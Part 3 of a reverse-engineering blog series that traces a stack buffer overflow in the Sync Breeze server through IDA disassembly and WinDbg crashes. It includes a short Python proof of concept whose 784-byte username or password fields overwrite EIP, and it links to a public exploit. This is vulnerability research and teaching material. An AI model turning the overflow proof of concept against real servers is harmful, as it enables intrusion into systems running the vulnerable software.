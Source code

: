 [Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/reversing/sync-breeze-reversing-2) : [Part 3](https://plackyhacker.github.io/reversing/sync-breeze-reversing-3)

# Sync Breeze Revisited Part 3

## A Smoking Gun

I continued tracing the instrcution flow trying to see if any vulnerable functions were called (such as `strcpy`), but nothing! However, following the instruction flow I arrived upon the following:

```nasm
.text:00754E30 ; int __thiscall SCA_ConfigObj::GetField(SCA_ConfigObj *__hidden this, const char *, char *, unsigned int)
.text:00754E30 public ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z
.text:00754E30 ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z proc near
.text:00754E30
.text:00754E30 arg_0= dword ptr 4
.text:00754E30 arg_4= dword ptr 8
.text:00754E30
```

Three parameters, but only two local variables (`arg_0` and `arg_4`) being used. I went back to the block that called `GetField` in `sycbrs.exe`, I added a few comments:

```
.text:00426C1D lea     esi, [eax+628h]
.text:00426C23 lea     eax, [esp+320h+var_30C] ; this is our local buffer on the stack
.text:00426C27 push    104h            ; This looks like a length of 260 - not used in the function GetField although sent as a parameter - odd!
.text:00426C2C push    eax             ; This is the username field buffer that can be overflowed
.text:00426C2D push    offset aUsername ; The field to get
...
.text:00426C51 call    ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z ; SCA_ConfigObj::GetField(char const *,char *,ulong)
```

When the GetField has returned it has placed the buffer password buffer that I sent in my packet on the current stack, if this isn't bounds checked then I may be able to overflow the return address on the stack.

Even earlier in the instructions I find this:

```
.text:00426B20 sub     esp, 310h
```

This instruction increases the size of the stack by 784 bytes, this will be to make space for various buffers we are placing on the stack. My theory at this point was 784 bytes were being reserved on the stack for the local variables, there is no bounds checking on the buffers I send (the probable length field), if I send a buffer of 784 bytes I might be able to overflow the buffer.

Further down the function I found:

```
.text:00426DC9 add     esp, 310h       ; This moves the stack + 0x310
.text:00426DCF retn    4
```

These two instructions move the stack pointer back to what should be the saved return address, but if there is no bounds checking then it will be vulnerable.

## Proof of Concept

I changed my `python` PoC:

```python
username = b"A" * 784
password = b"B" * 100
content = b"username=" + username + b"&password=" + password
```

Sure enough the buffer overflowed:

```
(dc4.310): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000000 ecx=004ccfbc edx=00000358 esi=004bec9e edi=00de60f0
eip=41414141 esp=0180744c ebp=004c3108 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
41414141 ??              ???
```

In theory, the password field also uses the same instruction flow and should overflow, I changed the PoC:

```python
username = b"A" * 100
password = b"B" * 784
content = b"username=" + username + b"&password=" + password
```

As sure as eggs is eggs the buffer is overflowed:

```
0:009> g
(1be0.1ff0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000000 ecx=0052c2c4 edx=00000358 esi=0051fece edi=00e360f0
eip=42424242 esp=01a5744c ebp=00524028 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
42424242 ??              ???
```

Exploiting this vulnerability is straight forward, the [public exploit can be found here](https://www.exploit-db.com/exploits/42928).

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/reversing/sync-breeze-reversing-2) : [Part 3](https://plackyhacker.github.io/reversing/sync-breeze-reversing-3)
